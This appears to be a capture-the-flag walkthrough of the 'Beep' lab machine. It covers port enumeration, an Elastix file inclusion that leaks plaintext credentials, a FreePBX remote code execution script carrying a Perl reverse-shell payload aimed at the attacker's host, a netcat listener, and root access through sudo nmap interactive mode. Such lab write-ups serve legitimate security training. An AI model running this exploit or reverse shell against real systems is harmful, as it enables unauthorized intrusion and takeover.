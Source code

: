 # IP Address: 10.10.10.7

# Enumeration
```
┌──(code㉿kali)-[~]
└─$ nmapAutomator.sh -H 10.10.10.7 -t all


PORT      STATE SERVICE    REASON  VERSION
22/tcp    open  ssh        syn-ack OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       syn-ack Postfix smtpd
80/tcp    open  http       syn-ack Apache httpd 2.2.3
110/tcp   open  pop3       syn-ack Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    syn-ack 2 (RPC #100000)
143/tcp   open  imap       syn-ack Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/http   syn-ack Apache httpd 2.2.3 ((CentOS))
878/tcp   open  status     syn-ack 1 (RPC #100024)
993/tcp   open  ssl/imap   syn-ack Cyrus imapd
995/tcp   open  pop3       syn-ack Cyrus pop3d
3306/tcp  open  mysql      syn-ack MySQL (unauthorized)
4190/tcp  open  sieve      syn-ack Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp? syn-ack
4559/tcp  open  hylafax    syn-ack HylaFAX 4.3.10
5038/tcp  open  asterisk   syn-ack Asterisk Call Manager 1.1
10000/tcp open  http       syn-ack MiniServ 1.570 (Webmin httpd)
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix



```

### HTTP (80)
Elastix VoIP service is served on TCP port 80 which is vulnerable to local file inclusion. We can grab the amportal.conf file with Burp (so that it's formatted) and see the database and admin user credentials in plaintext.

![dashboard](https://github.com/codetantrum/walkthroughs/blob/master/Beep/images/Pasted%20image%2020211118194810.png)

asteriskuser:jEhdIekWmdjE
admin:jEhdIekWmdjE

After logging in as admin, we find a user, fanis, and their PBX extension at PBX tab >> Batch of Extensions >> Download the current extensions in CSV format.

A Google search reveals an unauthenticated RCE vulnerability with the FreePBX (Asterisk) component. We find an exploit here https://www.nmmapper.com/st/exploitdetails/18650/26436/freepbx-2100-elastix-220-remote-code-execution/ and edit it for our purposes.

Original:
```
import urllib
rhost="172.16.254.72"
lhost="172.16.254.223"
lport=443
extension="1000"

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url)
```

Edited:
```
import ssl						# EDIT 1
import urllib
rhost="10.10.10.7"				# EDIT 2
lhost="10.10.14.17"				# EDIT 3
lport=4488						# EDIT 4
extension="233"					# EDIT 5 (fanis' extension)

ctx = ssl.create_default_context()	# BEGIN EDIT 6
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE		# END EDIT 7

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url, context=ctx)	# EDIT 8
```

Note: We needed to import the SSL library to have the ability to ignore the certificate errors served. 

Setting up a netcat listener on port 4488, we launch the exploit and catch a reverse shell as asterisk.
```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4488
listening on [any] 4488 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.7] 50263
id
uid=100(asterisk) gid=101(asterisk)

```

user.txt

![user.txt](https://github.com/codetantrum/walkthroughs/blob/master/Beep/images/Pasted%20image%2020211119131650.png)


# Privilege Escalation

Check sudo permissions of asterisk and find that user can run many commands as root without password. Run nmap interactively and spawn a root shell.
```
python -c 'import pty;pty.spawn("/bin/bash")'
bash-3.2$ sudo -l
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ sudo /usr/bin/nmap --interactive
sudo /usr/bin/nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)

```


# Proof

root.txt

![root.txt](https://github.com/codetantrum/walkthroughs/blob/master/Beep/images/Pasted%20image%2020211119133031.png)
